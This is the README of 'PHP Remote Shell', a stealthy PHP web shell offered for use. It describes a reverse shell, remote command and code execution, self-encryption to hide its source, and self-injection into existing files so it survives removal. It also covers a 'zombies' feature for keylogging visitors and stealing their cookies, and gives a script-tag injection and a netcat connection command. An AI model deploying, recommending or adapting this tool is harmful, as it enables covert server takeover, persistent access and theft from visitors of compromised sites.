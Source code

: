 # phpRemoteShell

[Project homepage](http://phpremoteshell.esaracco.fr)

PHP Remote Shell is a Swiss army knife for exploring servers via the Web. It contains a reverse shell in PHP, a full file browser, the ability to execute shell commands or PHP / SQL / LDAP code, crontab management and « zombies » management. It can also nest itself in existing files in order to redeploy automatically during their execution. If it has been previously encrypted, it is able to decrypt itself on the fly.

It was designed to be robust and work with just about any POSIX server with a decent version of PHP. It may look a bit rustic at times, but it should work everywhere.

PHP Remote Shell will be as silent as possible, using only POST requests, displaying images using inline data, keeping session in its own file instead of cookies when possible, and so on.

## Requirement

You need a POSIX machine with PHP CLI on local, and a POSIX server with a PHP web service up on remote.

## Installation

Basically, you just have to put `prs.php` somewhere on the Web and access it with a POST request (GET requests will display a HTTP 404 error).

The simplest way to request PRS URL once uploaded is to open `launcher.html` with a web browser and fill the form.

You can use PRS _as is_ or you can encrypt it before uploading it on the remote host. Encryption is a guaranty for you that nobody will read the source code neither your authentication parameters if any. Knowing this, you can add what you want in it, your secrets will be well protected, even on remote :-)

To encrypt the script, go to `encryption/` and execute `./crypt yourpasswd`. The final encrypted `prs.php` file will be created in the same directory. This is the file to upload on remote host.

The `launcher.html` file allow you to specify your encryption password before requesting the PRS page.

To force PRS to ask for authentication, edit the script and fill the `Authentication` section constants.

To allow direct download of PRS file, just pass it `prsds=` as URL parameter :

```
http://remote-server/prs.php?prsds=
```

_Note that this will not work if you previously defined `CHECK_AUTH` or if you have encrypted PRS file_.

The original script name of PRS is `prs.php` but you can rename it as you want !

## Usage

### Edit

Allow you to open the `Profiles management` popup to save sessions and retrieve them later.

### Remote information

Displays the result of some common tools, plus the output of the `phpinfo()` function if available.

### Shell

#### Reverse shell

If the remote PHP allows it, let you choose a remote IP and port on which listening with a full PHP reverse shell.

It is just a basic shell, which means that sometimes it will not work and that the connection may be cut of or looped at any time. Some commands will be rewritten (like `ping` or `top`), others will be emulated (like `clear`). It is likely that in dying (when you grab the `shutdown` command from your client) it causes a zombie process.

Use `netcat` or any other client on your local machine to execute bash commands on the remote host.

```bash
you@local~$ nc 192.168.3.5 4000
PRS reverse shell 0.12.1
'quit' to quit, 'shutdown' to kill, 'help' for this help
www-data@192.168.3.5 /var/wwww$
```

#### Command execution

Sometime, reverse shell is not possible. This section allows you to execute bash commands and see their results directly from the PRS web page.

### PHP code

With this feature, you can write PHP code, execute it on the remote host and see the result.

### File browser

PRS file browser allows you a lot of things. You can create/edit/delete files, view symlinks and so on. It looks a lot like the output of the `ls` command, with some improvements.

#### Host me in

This feature of the file browser bottom menu allows you to « host » PRS on another PHP script. If someone ever erases it, it would be automatically recreated by calling this page.

### Crontab

Where possible, it allows you to edit, save or even remove the crontab of the current web user.

### Zombies

_This feature will not work if PRS file has been previously encrypted._ Use it only for fun and non-profit ;-)

You can have fun spying remote user's keyboard, injecting code, stealing cookies and so on. You can also web ping hosts on user's private network before launching CSRF attack for example. But, once again : it is instable, not stealth...

To create a zombie, inject the following HTML code in a web page :
```html
<script src="http://remote-server/prs.php?z=js"></script>
```
Then go to the PRS `Zombies` menu and wait until it appears on the list.

### SQL / LDAP

This menu allows you to access remote SQL or LDAP database assuming you know their access settings. For now it can manage MySQL (`mysql`, `mysqli`, `pdo_mysql`), PostgreSQL (`pgsql`, `pdo_pgsql`) and LDAP. It offers some basic macros, but most of the work will have to be done in SQL.

## License
GPL
